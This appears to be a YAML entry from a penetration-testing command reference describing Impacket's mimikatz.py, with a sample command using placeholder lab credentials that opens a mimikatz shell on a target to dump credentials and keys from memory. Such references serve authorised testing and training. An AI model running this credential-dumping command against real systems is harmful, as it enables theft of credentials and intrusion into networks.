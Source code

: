 ```yaml
---
description: |
  Impacket's mimikatz.py will drop you into a mimikatz shell on the target machine, allowing you to perform any mimikatz-related actions, such as dumping credentials from memory, dumping keys, etc.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 mimikatz.py test.local/john:password123@10.10.10.1
items:
  - Password
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
---
```

